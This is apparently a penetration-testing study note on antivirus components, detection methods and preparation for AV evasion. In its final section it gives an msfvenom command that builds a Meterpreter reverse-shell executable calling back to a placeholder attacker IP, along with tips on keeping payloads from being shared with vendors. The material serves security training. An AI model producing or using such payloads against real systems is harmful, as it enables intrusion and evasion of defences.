 

Originally designed to remove viruses, AV's typically include firewalls, site scanners, etc.  

[https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)  

# Modern AV Components

Designed around following components:
## File Engine
- Responsible for scheduled & real-time file scans.
	- Scheduled
		- Parses the entire file system and sends each file's metadata or data to signature engine
	- Real-time
		- Involves detecting & (possibly) reacting to any new file action
			- IE: Downloading new malware from a site.
		- Need to ID events at the kernel level via a *mini-filter driver*

## Memory Engine
- Inspects each process' memory space at runtime for well-known binary signatures or sus API calls (for memory injection attacks)

## Network Engine
- Inspects incoming and outgoing network traffic on the local nic
- Once signature is matched, might attempt to block the malware from comm'ing w/ its C2

## Disassembler
- Translates machine code into assembly, restructures the original program code section, and IDs any encoding/ decoding routine.
- Utilizes a sandbox or emulator for thorough analysis against any known signature

## Browser Plugin
- Browsers are protected by the sandbox, modern AVs often use browser plugins to get better visibility and detect malicious content that might be executed inside the browser.

## ML Engine
- Enables detection of unknown threats by relying on cloud-enhanced computing resources and algorithms



# Detection Methods
Since antivirus software vendors use different signatures and proprietary tech for detection,  
and each vendor updates their databases constantly, it's usually difficult to come up with a catch-all antivirus evasion solution.  
Quite often, this process is based on a trial-and-error approach in a test environment.  
  
So, ID the presence, type, & version of the deployed antivirus software before considering a bypass strategy.  
  
If the client network or system implements antivirus software, we should gather as much information as possible  
and replicate the configuration in a lab environment for AV bypass testing before uploading files to the target machine.  

## Signature-based
- Mostly considered a *restricted list technology*
	- Filesystem is scanned for KM signatures &, if detected, quarantines the file.
- Detects based on file hash or continuous sequence of bytes w/in the malware that uniquely ID's it.  
- Blocklisting  
	- Easy to bypass by changing/ obfuscating the contents
		- Ex: changing upper to lowercase completely changes the hash
  
## Heuristic-based
- Relies on various rules & algorithms to determine whether or not an action is considered malicious.  
- Steps through instruction set or attempts to de-compile & looks for malicious patterns/ program calls
- Doesn't rely on signatures so can detect Unknown or altered KM
  
## Behavior-based 
- Dynamically analyzes the behavior of the file.  
- Executes w/in an emulated env & looks for malicious actions  
- Doesn't rely on signatures so can detect Unknown or altered KM

## Machine Learning-based
- Uses ML algorithms to detect unknown threats by collecting and analyzing additional metadata
	- Ex: Microsoft Windows Defender has two ML components
		- Client ML engine
			- Responsible for creating ML models and heuristics
		- Cloud ML engine
			- Capable of analyzing the submitted sample against a metadata-based model comprised of all the submitted samples.
		- Whenever the client ML engine is unable to determine whether a program is benign or not, it will query the cloud ML counterpart for a final response.


# Malware Submission

Should be used as a last resort when we don't know the specifics of our target's AV vendor.
If we do know those specifics on the other hand, we should build a dedicated VM that resembles the customer environment as closely as possible

Another rule of thumb we should follow when developing AV bypasses is to always prefer custom code.
AV signatures are extrapolated from the malware sample and thus, the more novel and diversified our code is, the fewer chances we have to incur any existing detection.

## VirusTotal

Issue with VT is that once you upload your malware and it's analyzed, the signature is shared with all of the AV vendors so they can sandbox it and build their own detections for it, rendering it unusable


## AntiScan.Me

Scans our sample against 30 different AV engines and claims to not divulge any submitted sample to third-parties
- Only offers 4 scans a day
- Doesn't support *.ps1*


## Windows

Windows utilizes an _Automatic Sample Submission_ to its ML engine which can be disabled
	_Windows Security_ > _Virus & threat protection_ > _Manage Settings_ and deselecting the relative option


### Example & Test AV
- Create a Meterpreter payload:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > binary.exe
```

- Upload to VirusTotal:  
	** Convenient but generates a hash for each unique submission, which is then shared with all participating AV vendors.  
	  As such, take care when submitting sensitive payloads as the hash is essentially considered public from the time of first submission.

![[virus-total-bad.png]]

- Use **nc** OR
```bash
python3 -m http.server 80
```
	to upload to Windows client  
  
- Install Avira on Win client:
```powershell
 C:\Tools\antivirus_evasion\
```

- Turn _Real_-_Time Protection_ on  
  
- Attempt to run _**binary.exe**_
	![[avira-alert.png]]

AV evasion falls into two broad categories: [on-disk](14.3.md) and [in-memory](14.3.1.md).
  
Given the maturity of AV file scanning, modern malware often attempts **in-memory** operation, avoiding the disk entirely and therefore reducing the possibility of being detected.  


